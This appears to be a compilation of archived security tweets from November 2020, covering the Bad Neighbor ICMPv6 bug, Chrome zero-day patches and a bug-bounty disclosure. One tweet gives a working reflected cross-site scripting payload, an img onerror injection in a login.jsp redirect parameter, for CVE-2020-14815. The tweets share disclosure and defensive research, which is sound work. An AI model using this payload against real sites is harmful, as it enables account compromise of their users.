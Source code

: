 * https://blog.zecops.com/vulnerabilities/exploring-the-exploitability-of-bad-neighbor-the-recent-icmpv6-vulnerability-cve-2020-16898/

<table><tr>
<td><img src="pictures/27002fe0df962bec0e4296099c63a420bcc204a487f97a7ba38702992ba52869.jpg" alt="27002fe0df962bec0e4296099c63a420bcc204a487f97a7ba38702992ba52869.jpg"></td>
<td><img src="pictures/969880f9d01d1291a4f27f0bdff5105f8fcc5ff1f2390ed55df6b6c1294a6214.jpg" alt="969880f9d01d1291a4f27f0bdff5105f8fcc5ff1f2390ed55df6b6c1294a6214.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>81</code></td>
</tr></table>

---

# HackerOn2Wheels
**https://twitter.com/HackerOn2Wheels/status/1326927875279380480 _at 2020-11-12, 16:40:33_**
<blockquote>
Nothing critical, but here is the PoC for the new CVE I got credited for: CVE-2020-14815. 

https://target[.]com/bi-security-login/login.jsp?msi=false&amp;redirect="&gt;&lt;img/src/onerror%3dalert(document.domain)&gt;

Got a couple of Med in H1 using it. Have Fun!

#bugbounty #bugbountytips https://t.co/A8qx640VgE
</blockquote>

<table><tr>
<td><img src="pictures/cf7bc56763d282ad9fc7ff026c1d34dccfd26704a9b34d180dcdc150c4605d42.jpg" alt="cf7bc56763d282ad9fc7ff026c1d34dccfd26704a9b34d180dcdc150c4605d42.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>134</code></td>
<td>Favorites: <code>343</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1326656333580480514 _at 2020-11-11, 22:41:32_**
<blockquote>
BREAKING: Google patches two more Chrome zero-days

This includes:
-CVE-2020-16013 - impacts Chrome V8 JS engine
-CVE-2020-16017 - impacts Chrome's Site Isolation feature

Google has now patched five Chrome zero-days in three weeks
